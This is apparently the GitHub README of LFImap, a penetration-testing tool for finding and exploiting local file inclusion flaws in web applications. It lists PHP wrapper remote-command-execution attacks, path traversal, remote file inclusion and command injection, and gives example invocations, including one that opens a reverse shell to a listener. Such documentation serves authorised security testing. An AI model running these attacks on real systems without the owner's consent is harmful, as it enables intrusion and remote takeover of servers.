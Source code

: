 
## Local file inclusion discovery and exploitation tool

### Main features
- Attack with inclusion wrappers
    - Filter wrapper arbitrary file inclusion
    - Data wrapper remote command execution
    - Input wrapper remote command execution
    - Expect wrapper remote command execution
    - File wrapper arbitrary file inclusion
- Attack with path traversal
- Remote file inclusion
- Polyglot command injection check
- Heuristic scans
    - Polyglot XSS, CRLF checks
    - Open redirect check
    - Error-based info leak

- Testing modes
    - '-U' -> specify single URL to test
    -  '-F' -> specify wordlist of URLs to test
    - '-R' -> specify raw http from a file to test

- Full control over the HTTP request
    - Specification of parameters to test (GET, FORM-line, Header, custom injection point)
    - Specification of custom HTTP headers 
    - Ability to test with arbitrary form-line (POST) data
    - Ability to test with arbitrary HTTP method
    - Ability to pivot requests through a web proxy
    - Ability to tune testing with timeout in between requests and maximum response time, before giving up on it
    - Support for payload manipulation via url and base64 encoding(s)
    - Support to output all requests and responses to a file
    - Quick mode (-q), where LFImap uses fewer carefully selected payloads
    - 

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)

### -h, --help

```                  
 usage: lfimap.py [-U [url]] [-F [urlfile]] [-R [reqfile]] [-C <cookie>] [-D <data>] [-H <header>]
                 [-M <method>] [-P <proxy>] [--useragent <agent>] [--referer <referer>]
                 [--placeholder <name>] [--delay <milis>] [--max-timeout <seconds>]
                 [--http-ok <number>] [--force-ssl] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r] [-c]
                 [-file] [-heur] [-a] [-n <U|B>] [-q] [-x] [--lhost <lhost>] [--lport <lport>]
                 [--callback <hostname>] [-wT <path>] [--use-long] [--log <logfile>] [-v] [-h]

LFImap, Local File Inclusion discovery and exploitation tool

TARGET OPTIONS:
  -U [url]                 Specify single url to test
  -F [urlfile]             Specify multiple urls to test from a file
  -R [reqfile]             Specify single raw request to test from a file

GENERAL OPTIONS:
  -C <cookie>              Specify session Cookie header
  -D <data>                Specify request FORM-data
  -H <header>              Specify additional HTTP header(s)
  -M <method>              Specify request method to use for testing
  -P <proxy>               Specify proxy URL:PORT
  --useragent <agent>      Specify HTTP user-agent header value
  --referer <referer>      Specify HTTP referer header value
  --placeholder <name>     Specify custom testing placeholder name (default is "PWN")
  --delay <milis>          Specify delay in miliseconds after each request
  --max-timeout <seconds>  Specify number of seconds after giving up on a URL (default 5)
  --http-ok <number>       Specify http response code(s) to treat as valid
  --force-ssl              Force usage of HTTPS/SSL if otherwise not specified
  --no-stop                Don't stop using the same testing technique upon findings

ATTACK TECHNIQUE:
  -f, --filter             Attack using filter wrapper
  -i, --input              Attack using input wrapper
  -d, --data               Attack using data wrapper
  -e, --expect             Attack using expect wrapper
  -t, --trunc              Attack using path traversal with wordlist (default "short.txt")
  -r, --rfi                Attack using remote file inclusion
  -c, --cmd                Attack using command injection
  -file, --file            Attack using file wrapper
  -heur, --heuristics      Test for miscellaneous issues using heuristics
  -a, --all                Use all supported attack methods

PAYLOAD OPTIONS:
  -n <U|B>                 Specify payload encoding(s). "U" for URL, "B" for base64
  -q, --quick              Perform quick testing with fewer payloads
  -x, --exploit            Exploit and send reverse shell if RCE is available
  --lhost <lhost>          Specify local ip address for reverse connection
  --lport <lport>          Specify local port number for reverse connection
  --callback <hostname>    Specify callback location for rfi and cmd detection

WORDLIST OPTIONS:
  -wT <path>               Specify path to wordlist for path traversal modality
  --use-long               Use "src/wordlists/long.txt" wordlist for path traversal modality

OUTPUT OPTIONS:
  --log <logfile>          Output all requests and responses to specified file

OTHER:
  -v, --verbose            Print more detailed output when performing attacks
  -h, --help               Print this help message 
```

### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
